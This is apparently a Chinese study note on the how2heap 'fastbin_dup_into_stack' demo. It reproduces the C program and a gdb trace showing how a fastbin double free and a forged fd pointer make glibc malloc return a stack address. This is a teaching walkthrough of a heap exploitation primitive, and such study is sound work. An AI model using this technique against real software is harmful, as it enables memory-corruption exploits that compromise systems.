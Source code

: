 # fastbin_dup_into_stack.log
如果对fastbin不熟悉，请先阅读fastbin_dup.log篇。

## Code
```cpp
int main()
{
	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	printf("1st malloc(8): %p\n", d);
	printf("2nd malloc(8): %p\n", malloc(8));
	printf("Now the free list has [ %p ].\n", a);
	printf("Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x21;

	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	printf("4th malloc(8): %p\n", malloc(8));
}
```

## Environment
Ubuntu x64 libc.so.23

gdb调试，b printf

## Trace
C代码中的非格式化的printf会被编译器优化成puts。所以第一次断在程序中的第二个printf处。finish返回：
![](./images/20171018_1.jpg)

stack_var想要作为伪造chunk的curSize(3 flag bits)，64位环境长度为8字节，所以精心构造malloc返回的地方应该是(char*)stack_var+8的地方。stack_var根据chunk的尺寸，伪造成21（其实对于fastbin来说，20也行，但21是字面意义上最正确的）。

经过3次malloc，此时的chunk：
![](./images/20171018_2.jpg)

经过3次free：
![](./images/20171018_3.jpg)

此时fastbin->0x603410(chunk a)->0x603430(chunk b)->0x603410(chunk a)->...

第一次malloc，指针d指向的就是chunk a的Alloc域，也就是0x603420：
![](./images/20171018_4.jpg)

第二次malloc分配原本的chunk b，不关心。
第三次malloc分配之前，我们要先改掉d指向的区域，也就是下一次要分配到的原本的chunk a的fd指针，改成指向栈空间的(char*)stack_var-16的地址，这里16是preSize+curSize的大小。

执行第三次malloc之前：
![](./images/20171018_5.jpg)

可以看到此时我们已在待分配的chunk上设置了fd指针指向0x7fffffffde28：
![](./images/20171018_6.jpg)

第三次malloc分配的依然是chunk a，但此时由于改动了chunk a的fd指针，导致原本的fastbin循环链被破坏，分配之后，fastbin不再指向chunk b，而指向了伪造的chunk，即0x7fffffffde28。

第四次malloc，分配的就是伪造的chunk：
![](./images/20171018_7.jpg)

常见的还有将chunk伪造在.bss段上，利用思路是一样的，关键在于对fastbin chunk的理解。